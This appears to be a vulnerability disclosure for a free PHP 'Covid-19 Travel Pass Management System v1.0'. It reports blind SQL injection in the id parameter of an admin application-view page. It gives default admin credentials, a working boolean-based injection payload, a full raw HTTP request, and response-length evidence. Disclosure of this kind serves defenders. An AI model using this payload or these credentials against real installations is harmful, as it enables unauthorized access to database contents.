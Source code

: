 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/admin/?page=applications/view_application&id=

Vulnerability location: /ctpms/admin/?page=applications/view_application&id=,id

[+] Payload: /ctpms/admin/?page=applications/view_application&id=1%27%20and%20length(database())%20=8--+ // Leak place ---> id

Current database name: ctpms_db,length is 8

```sql
GET /ctpms/admin/?page=applications/view_application&id=1%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
```
When length (database ()) = 7, Content-Length: 27877

![image](https://user-images.githubusercontent.com/54017627/167082359-bb4e0276-4c0f-47f5-b46f-5fde51305486.png)

![image](https://user-images.githubusercontent.com/54017627/167082433-f96ebd1f-c54c-466e-8f90-08d2058c73d5.png)

When length (database ()) = 8, Content-Length: 27944

![image](https://user-images.githubusercontent.com/54017627/167082332-76d12c0d-74f1-4c8f-ac3d-40f7280fedc9.png)

![image](https://user-images.githubusercontent.com/54017627/167082392-150c8c2c-f910-4c04-a6ce-b982aa05f457.png)

